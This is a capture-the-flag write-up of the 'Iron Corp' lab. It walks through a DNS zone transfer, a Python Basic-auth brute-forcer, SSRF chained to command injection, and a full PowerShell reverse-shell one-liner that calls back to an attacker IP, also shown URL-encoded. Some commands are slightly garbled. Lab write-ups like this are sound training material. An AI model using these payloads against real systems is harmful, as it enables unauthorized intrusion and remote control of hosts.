Lab: Iron Corp
Reconnaissance
Let’s start by scanning the target network with Nmap.

└─$ sudo nmap -p- ironcorp.me -PnThis shows 7 open ports.
Next, we run a version scan to identify what is running on those ports.

└─$ sudo nmap -p53,135,3389,8080,11025,49668,49670 -sV ironcorp.me -PnEnumeration
Some interesting ports were found: 8080, 11025 & 53
Although port 3389 (RDP) caught my attention, it was not my initial focus.
I inspected the website running on port 8080 and concluded that it is a
rabit hole.
It appears to be just a template with no backend functionality.
I then checked the service on port 11025, which also turned out to be just a frontend.
I performed directory enumeration with Gobuster on both ports but found nothing useful.
Next I decided to enumerate the DNS server. I did so by trying a zone transfer.
I used the following command:
└─$ sudo dig axfr ironcorp.me @10.114.170.40What this command does
- dig : DNS query tool
- axfr : zone transfer request
- ironcorp.me : domain you’re querying
- @10.112.133.139 : specific DNS server you’re asking
A zone transfer (AXFR) requests the entire DNS database of a domain.
Normally: restricted to authorized DNS servers
Misconfigured: anyone can retrieve it, resulting in information disclosure (e.g., hidden subdomains)
This is the result:

I discovered two new subdomains this way.
I added both admin.ironcorp.me and internal.ironcorp.me to /etc/hosts
internal.ironcorp.me:11025 returned a 403: Forbidden
This likely indicates that the service is only accessible from the internal network.
However, admin.ironcorp.me:11025 prompted for authentication.

I wrote a script to brute-force the admin credentials.
Credential Bruteforcer (Python)
import base64
import requests
rockyou = "/usr/share/wordlists/rockyou.txt"
url = "http://admin.ironcorp.me:11025"
headers = {
"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0",
"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
}
with open(rockyou, "r", encoding="latin-1") as f:
for line in f:
password = line.strip()
credentials = f"admin:{password}"
encoded_credentials = base64.b64encode(credentials.encode()).decode()
headers["Authorization"] = f"Basic {encoded_credentials}"
response = requests.get(url, headers=headers)
if response.status_code == 200 and "Authentication required!" not in response.text.lower():
print(f"[+] Found password: {password}")
break
else:
print(f"[-] Tried password: {password}")
The script ran for about a minute and successfully revealed the password.

Exploitation
After logging in, I landed on a page with a search bar.

I tested various inputs. At first, nothing stood out.
Then I tried dir, the Windows equivalent of ls -la.
The command took noticeably longer to respond, suggesting that it was being executed.
This indicates a command injection vulnerability.
However, spaces were not allowed, meaning only a single argument could be used.
I hosted a web server using Python:
└─$ sudo python3 -m http.server 8080I placed a file named shell.ps1 in the web root and entered its URL in the search bar.
http://192.168.169.133:8080/shell.ps1And with success:

The server returned the file contents successfully.
This confirms a file inclusion vulnerability, not direct command execution.
Using this, I accessed:
http://192.168.169.133:11025/server-statusAlthough normally restricted, it was accessible because the request originated from the server itself.
This is a clear case of SSRF (Server-Side Request Forgery).
I then accessed: http://internal.ironcorp.me:11025
This revealed a new endpoint: http://internal.ironcorp.me:11025/name.php?name=
Since this service is only accessible internally, I had to use the SSRF vulnerability to interact with it.
After some testing, I injected: |whoami
And it returned the following:

This confirmed that commands were being executed as NT AUTHORITY\SYSTEM.
I set up a Netcat listener on port 4444
└─$ nc -nvlp 4444I then used a PowerShell reverse shell payload.
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "$client = New-Object System.Net.Sockets.TCPClient('YOUR_IP',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"Because spaces were not allowed, I URL-encoded the payload and injected it via the vulnerable parameter.
http://internal.ironcorp.me:11025/name.php?name=http://internal.ironcorp.me:11025/name.php?name=%7cpowershell%20%2DNoP%20%2DNonI%20%2DW%20Hidden%20%2DExec%20Bypass%20%2DCommand%20%22%24client%20%3D%20New%2DObject%20System%2ENet%2ESockets%2ETCPClient%28%27192%2E168%2E169%2E133%27%2C4444%29%3B%24stream%20%3D%20%24client%2EGetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200%2E%2E65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream%2ERead%28%24bytes%2C0%2C%24bytes%2ELength%29%29%20%2Dne%200%29%7B%3B%24data%20%3D%20%28New%2DObject%20%2DTypeName%20System%2EText%2EASCIIEncoding%29%2EGetString%28%24bytes%2C0%2C%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out%2DString%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29%2EPath%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext%2Eencoding%5D%3A%3AASCII%29%2EGetBytes%28%24sendback2%29%3B%24stream%2EWrite%28%24sendbyte%2C0%2C%24sendbyte%2ELength%29%3B%24stream%2EFlush%28%29%7D%3B%24client%2EClose%28%29%22And voila, a reverse shell is born:

Post-Exploitation
I then searched for the first flag.

During enumeration, I discovered a user named SuperAdmin.
This account looked interesting, especially since its directory was not accessible.
I needed to escalate privileges.
I checked my privileges using:
PS C:\> whoami /all
The output showed that SeImpersonatePrivilege was enabled.
This allows impersonation of other users, which can be leveraged for privilege escalation.
Based on the previous flag’s location, I assumed the root flag would be on the Desktop:
First, I took ownership of the directory and granted full access.
PS C:\Users\SuperAdmin> takeown /f C:\Users\SuperAdmin\Desktop /r /d yPS C:\Users\SuperAdmin> C:\Users\SuperAdmin\Desktop /grant Everyone:F /tPS C:\Users\SuperAdmin> type C:\Users\SuperAdmin\Desktop\root.txtMy assumption was correct:

Thank you for reading, I hope you learned something new.